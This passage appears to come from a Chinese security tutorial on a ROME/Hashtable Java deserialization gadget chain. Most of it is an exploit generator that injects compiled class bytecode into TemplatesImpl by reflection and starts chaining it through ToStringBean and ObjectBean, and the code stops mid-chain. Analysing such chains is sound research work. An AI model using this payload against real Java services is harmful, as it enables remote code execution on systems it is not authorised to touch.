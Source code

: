 我们可以发现 key 调用了 hashCode() 方法，这样就又能够任意类调用 hashCode 了：

[![](assets/1701612185-e7910ae6c0a73a310ac75139422bf797.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230807155252-691aecf0-34f7-1.png)

```bash
package EXPROME;

import java.util.Hashtable;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

public class RomeHashTable {
    public static void setValue(Object obj,String name,Object value)throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception{

        byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXPROME/Demo.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        setValue(templates,"_name","Ic4F1ame");
        setValue(templates, "_tfactory", new TransformerFactoryImpl());
        setValue(templates,"_bytecodes",codes);


        ToStringBean toStringBean = new ToStringBean(Templates.class,new ConstantTransformer(1));

        ObjectBean objectBean = new ObjectBean(ToStringBean.class,toStringBean);

```